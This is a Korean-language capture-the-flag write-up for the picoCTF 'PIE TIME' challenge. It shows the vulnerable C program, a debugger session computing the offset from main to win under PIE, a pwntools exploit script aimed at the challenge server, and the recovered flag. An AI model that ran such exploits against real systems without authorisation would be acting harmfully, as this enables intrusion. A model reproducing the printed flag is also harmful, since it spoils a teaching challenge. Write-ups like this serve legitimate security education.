 # [PIE TIME](https://play.picoctf.org/practice/challenge/490?category=6&page=1)
<br />

**Description:**
> Can you try to get the flag? Beware we have PIE!
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped

$ pwn checksec vuln
[*] '/home/kali/CTF/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />
<br />

바이너리를 실행하면 `main`의 주소를 출력하고, 점프할 주소를 입력 받습니다. `win`으로 점프하면 문제가 풀리지만, 바이너리에는 `PIE`가 적용되어 있어서 `win`의 주소를 특정하기 어렵습니다. 그러나 함수의 오프셋은 영향을 받지 않으므로, 디버깅을 통해 `win`의 오프셋을 구하면 문제를 쉽게 해결할 수 있을 것입니다.
```bash
pwndbg> p/a 0x55555555533d
$1 = 0x55555555533d <main>
pwndbg> p win
$2 = (<text variable, no debug info> *) 0x5555555552a7 <win>
pwndbg> p/x 0x55555555533d - 0x5555555552a7
$3 = 0x96
```
`main`과 `win`의 오프셋은 `0x96` 입니다.

```bash
$ ./vuln
Address of main: 0x564f85f0633d
Enter the address to jump to, ex => 0x12345: 0x564f85f062a7
Your input: 564f85f062a7
You won!
Cannot open file.
```
바이너리를 실행하여 제공되는 `main`의 주소에서 `0x96`만큼 뺀 주소로 점프하면 문제가 풀이됩니다.

```python
from pwn import *

context.log_level = "error"

#p = process("./vuln")
p = remote("rescued-float.picoctf.net", 59222)

p.recvuntil(b"0x")

MAIN = int(p.recv(12), 16)
WIN = MAIN - 0x96
log.info(f"WIN: {WIN:#x}")

p.sendlineafter(b"0x12345: ", hex(WIN).encode())
p.interactive()
```
```bash
$ python3 test.py
Your input: 563387db42a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_fec8b8c5}

$
```
